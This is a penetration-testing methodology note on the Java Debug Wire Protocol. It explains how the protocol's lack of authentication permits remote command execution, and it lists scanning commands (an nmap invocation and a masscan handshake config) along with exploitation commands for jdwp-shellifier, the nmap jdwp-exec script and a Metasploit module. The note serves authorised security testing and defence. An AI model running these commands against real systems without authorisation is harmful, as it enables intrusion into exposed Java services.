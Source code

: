 # Java Debug Wire Protocol - Methodology

### Overview

The `Java Debug Wire Protocol (JDWP)` is one of three interfaces of the `Java
Platform Debug Architecture`, which is designed for debugging purposes in
development environments. The `JDWP` is a communication protocol used for the
exchanges between a debugger and a `Java Virtual Machine (JVM)` being debugged,
sometimes referred to as the "target `JVM`".

The `JDWP` protocol is asynchronous and implement two basic packet types:
`command packets` and `reply packets`. The `command packets` are used to
instruct the receiving component to execute of a specific command. While
`command packets` can be sent by both the debugger and the target `JVM`, they
are generally sent by the debugger. The `reply packets` are only sent in
response to a `command packet` and return information about the command
execution (command execution status, command output, etc.).

**Remote code execution can be achieved through the `JDWP` protocol**, as it
support the loading of arbitrary classes into the target `JVM` and the
invocation of functions. The code will be executed on the remote system under
the security context of the target `JVM`.

One example of a simplified process to remotely execute system commands is as
follow:
  - setting of a breakpoint on a method often called during runtime such as
    `java.net.ServerSocket.accept()` or `java.lang.String.indexOf()`. This step
    is required as the next instructions must be executed in a running
    context (and will thus be executed only after the triggering of the
    breakpoint).
  - retrieval of the `JVM`'s runtime context (of the thread in which the
    breakpoint is triggered) by sending a `ClassType/InvokeMethod` packet
    invoking the `java.lang.Runtime.getRuntime()` static method.
  - allocation of a Java `String` object that will contain the operating system
    command to execute.
  - calling of the `Runtime.exec()` method to execute the system command
    defined in the previously allocated string.

Another possibility is to inject a Java class, as a `byte` array, into the
target `JVM` using `secureClassLoader.defineClass`. Following the remote
loading, a method of the injected class can be invoked to conduct the shell
commands execution.  

As intended for non-production environments, the **`JDWP` protocol does not
support authentication nor data encryption**.

Disabled by default, a `JVM` must be explicitly started with the following
arguments in order to be remotely debuggable (and thus exposing a `JDWP`
interface):
  - Before `Java 5.0`, `-Xdebug` and `-Xrunjdwp`.
  - Starting from `Java 5.0`,    
  `-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=<*:8000 | *:PORT>`

### Network scan

While `JDWP` services are standardly exposed on port TCP 8000, the port number
of the service is specified at the `JVM` start. `JDWP` services may thus be
accessible on any TCP ports.

Note that `JDWP` communications are initiated by a both-way handshake, with the
debugger sending a `JDWP-Handshake` string and the target `JVM` responding
using the same string. Through this handshake, `JDWP` services can be reliably
identified.

```
nmap -v <-p 8000 | -p-> -sV -sC -oA nmap_JDWP <RANGE | CIDR>
```

`massscan` with the configuration file below can be used to scan the network
for accessible `JDWP` services by scanning for open TCP ports and attempting a
`JDWP-Handshake` handshake.

```
# Usage: masscan [-v] -c <JDWP_MASSCAN_CONF>
# Adapted from: https://raw.githubusercontent.com/IOActive/jdwp-shellifier/master/jdwp-masscan.cfg

rate =  <5000.00 | RATE>
randomize-hosts = true
banners = true
rotate = 0
rotate-dir = .
rotate-offset = 0
rotate-filesize = 0

range = <IP | RANGE | CIDR>
ports = <3999,5000,5005,8000,8453,8787-8788,9001,18000 | 1-65535 | TCP_PORTS>

min-packet = 60
hello-string[0] = SkRXUC1IQU5EU0hBS0U=
```

### Remote Code Execution

The `Metasploit`'s `exploit/multi/misc/java_jdwp_debugger` module, the
`jdwp-shellifier` Python script, and the `nmap`'s `jdwp-exec` NSE script can be
used to exploit a `JDWP` service to execute remote operating system commands.

The `nmap`'s `jdwp-exec` NSE script remotely inject a Java class while the
`Metasploit` module and `jdwp-shellifier.py` directly retrieve the Runtime
context to call the `Runtime.exec()` method.

Note that the `Metasploit`'s `exploit/multi/misc/java_jdwp_debugger` module
drops a payload file to disk and by doing so may trigger antivirus alerts.
Neither `nmap`'s `jdwp-exec` NSE script nor `jdwp-shellifier.py` upload a file
to the targeted system.

```
# If executed with out a command, jdwp-shellifier will retrieve basic system information (OS version, current user, Runtime ClassPath, etc.).
# Defaults to break on "java.net.ServerSocket.accept" calls.
# Setting a breakpoint on "java.lang.String.indexOf" can be more reliable.  
jdwp-shellifier.py -t <IP | HOSTNAME> -p <PORT> [--break-on <'java.lang.String.indexOf' | JAVA_METHOD>]
jdwp-shellifier.py -t <IP | HOSTNAME> -p <PORT> [--break-on <'java.lang.String.indexOf' | JAVA_METHOD>] --cmd "<COMMAND>"

nmap -v -sT -sV -p <PORT> --script=+jdwp-exec --script-args cmd="<COMMAND>" <IP | HOSTNAME | RANGE | CIDR>

msf > use exploit/multi/misc/java_jdwp_debugger
```
